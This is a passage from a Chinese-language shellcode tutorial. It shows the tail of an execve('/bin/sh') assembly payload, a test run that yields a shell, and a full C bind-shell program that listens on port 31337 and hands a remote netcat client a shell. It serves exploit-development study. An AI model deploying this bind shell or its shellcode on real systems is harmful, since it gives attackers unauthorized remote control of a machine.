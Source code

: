 这几步如下所示：

{% highlight nasm %}
push ebx
mov ecx, esp
{% endhighlight %}

接着，各个参数都已经推入相应寄存器，直接开始调用`int 0x80`

## 验证我们的咒语

把你的shellcode保存为任意以`.asm`为后缀的文件。比如`shellcode.asm`

用之前我们的测试脚本生成可执行文件：

    ~/Work/notes/shellcode ⮀ sh test.sh shellcode.asm
    sh-4.2$ 

非常棒！！

## 绑定端口的shellcode

如果你是通过某种法术把shellcode咒语施加到某个远程的程序上，一个在远程机器本地提供的shell没有丝毫用处。你需要绑定端口，然后使用TCP/IP瑞士军刀netcat来远程打开一个shell。

为了将一个shell绑定到某个端口(比如31337端口，注意1024以下FIXME端口号的绑定需要root权限)上，需要做以下几步，我们先写出等效的C程序：

{% highlight c %}
#include <unistd.h>
#include <string.h>
#include <sys/socket.h>
#include <netinet/in.h>
#include <arpa/inet.h>

int main(void)
{
  int sockfd, new_sockfd;
  struct sockaddr_in host_addr, client_addr;
  socklen_t sin_size;
  int yes=1;

  sockfd = socket(PF_INET, SOCK_STREAM, 0); // 建立一个流套接字
  host_addr.sin_family = AF_INET; // 定义协议族
  host_addr.sin_port = htons(31337); // 定义端口号，注意本地到网络字节序转换
  host_addr.sin_addr.s_addr = INADDR_ANY; // 用本地IP填满
  memset(&(host_addr.sin_zero), '\0', 8); // 剩余空位用0填充
  // 将流套接字绑定到本地31337端口
  bind(sockfd, (struct sockaddr *)&host_addr, sizeof(struct sockaddr));

  listen(sockfd, 4); // 监听
  sin_size = sizeof(struct sockaddr_in);
  new_sockfd = accept(sockfd, (struct sockaddr *)&client_addr, &sin_size);
  dup2(new_sockfd, 0);
  dup2(new_sockfd, 1);
  dup2(new_sockfd, 2);
  char *newargv[] = { "/bin/sh", NULL };
  char *newenviron[] = { NULL };
  execve("/bin/sh", newargv, newenviron);
}
{% endhighlight %}
